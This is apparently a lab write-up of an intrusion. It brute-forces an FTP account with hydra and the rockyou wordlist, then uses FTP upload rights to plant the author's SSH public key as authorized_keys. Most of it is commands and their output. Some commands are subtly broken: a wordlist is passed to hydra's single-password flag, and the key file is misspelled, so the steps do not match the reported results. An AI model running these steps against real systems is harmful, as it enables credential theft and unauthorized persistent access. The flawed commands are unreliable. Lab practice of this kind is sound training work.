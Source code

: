 For some reason the hydra brute force didn't work for me with a file of usernames but when I did just one 
username I was able to crack the password

# hydra command for one user

```bash
hydra -l matt -p /usr/share/wordlists/rockyou.txt ftp://10.0.2.254
```

# hydra results

```bash
[21][ftp] host: 10.0.2.254   login: matt   password: cheese
```

Once I was logged in to the ftp server as the matt user, it looked like we were in his home directory. I found that I could upload
files to the ftp server so I made a .ssh directory in the ftp server and created a new ssh key on my kali (attack) machine.

# new directory in ftp server command

```bash
mkdir .ssh
```

# ssh key command

```bash
ssh-keygen
```

I then read the contents of my id_rsa.pub and redirected the output to a new file called authorized_keys, and uploaded
the new authorized_keys file to the ftp server

# cat command

```bash
cat /home/kali/.ssh/id_rsa.pub > authorzied_keys
```

# ftp upload command (after being logged in to the ftp server)

```bash
cd .ssh 

put authorzied_keys
```
